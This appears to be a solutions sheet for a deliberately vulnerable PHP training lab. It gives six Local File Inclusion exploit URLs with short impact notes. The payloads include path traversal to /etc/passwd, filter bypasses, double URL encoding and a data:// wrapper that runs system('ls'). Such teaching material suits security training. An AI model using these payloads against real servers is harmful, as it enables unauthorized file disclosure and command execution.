 ## Level 1

**Vulnerability:** Local File Inclusion

**Exploit:** `/Vulnerable_code/PHP/LFI/level_1.php?file=/etc/passwd`

**Impact:** Display the content of any PHP file on hard disk drive with the privileges of HTTP server. 

## Level 2

**Vulnerability:** Local File Inclusion

**Exploit:** `/Vulnerable_code/PHP/LFI/level_2.php?file=...//index`

**Impact:** Display the content of any PHP file on hard disk drive with the privileges of HTTP server. The string replacement here is unsufficient because you can still change directories.

## Level 3

**Vulnerability:** Local File Inclusion

**Exploit:** `/Vulnerable_code/PHP/LFI/level_3.php?file=../../../etc/passwd`

**Impact:** Display the content of any PHP file on hard disk drive with the privileges of HTTP server. We can still change directories.


## Level 4

**Vulnerability:** Local File Inclusion

**Exploit:** `/Vulnerable_code/PHP/LFI/level_4.php?file=%252e%252e%252f%252e%252e%252f%252e%252e%252fetc%252fpasswd`

**Impact:** Display the content of any PHP file on hard disk drive with the privileges of HTTP server. The urldecode() call is risky and should not be called with $\_GET or $\_REQUEST (see [PHP documentation](https://www.php.net/manual/fr/function.urldecode.php)).

## Level 5

**Vulnerability:** Local File Inclusion

**Exploit:** `/Vulnerable_code/PHP/LFI/level_5.php?file=data://text/plain;charset=utf-8,<?php system('ls');//index`

**Impact (with allow_url_include=On):** Execute arbitrary system commands on HTTP server. 


## Level 6

**Vulnerability:** Local File Inclusion

**Exploit:** `/Vulnerable_code/PHP/LFI/level_6.php?file=./uploads_eede.php/../../../../../../../etc/passwd`

**Impact:** Display the content of any PHP file on hard disk drive with the privileges of HTTP server. We can still change directories.
